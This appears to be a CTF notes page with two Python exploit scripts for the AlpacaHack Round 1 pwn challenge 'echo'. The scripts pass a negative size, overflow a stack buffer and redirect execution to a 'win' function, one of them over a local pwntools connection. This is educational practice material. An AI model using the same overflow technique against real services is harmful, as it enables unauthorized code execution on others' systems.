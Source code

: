 # AlpacaHack
- [AlpacaHack](https://alpacahack.com/)
- [AlpacaHack Round 1 (Pwn)のWriteup - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2024/08/19/035647)

# AlpacaHack Round 1 (Pwn) / echo
[echo](https://alpacahack.com/ctfs/round-1/challenges/echo)

**exploit1.py**
```python
#!/usr/bin/env python3
import sys
import struct
def p64(x):
    return struct.pack("<Q", x)
# objdump -t echo | grep -w win | cut -d ' ' -f 1
win = p64(0x00000000004011f6)
sys.stdout.buffer.write(b"-2147483648"+b"\x0a")
sys.stdout.buffer.write(b"A"*(0x100+24))
sys.stdout.buffer.write(win+b"\x0a")
```

**exploit2.py**
```python
#!/usr/bin/env python3
from pwn import *
binary = "./echo"
context(arch = 'amd64', os = 'linux')
elf = ELF(binary)
win = elf.symbols["win"]
print("[#] addr of win:", hex(win))
#io = process(binary)
io = remote("127.0.0.1", 5000)
io.recvuntil(b"Size: ")
io.sendline(b"-2147483648")
io.recvuntil(b"Data: ")
io.sendline(b"A"*(0x100+24) + p64(win))
io.interactive()
```
# AlpacaHack Round 8 (Rev)
- https://gist.github.com/akiym/7631528849a15ef1eb8ec36d4f590940
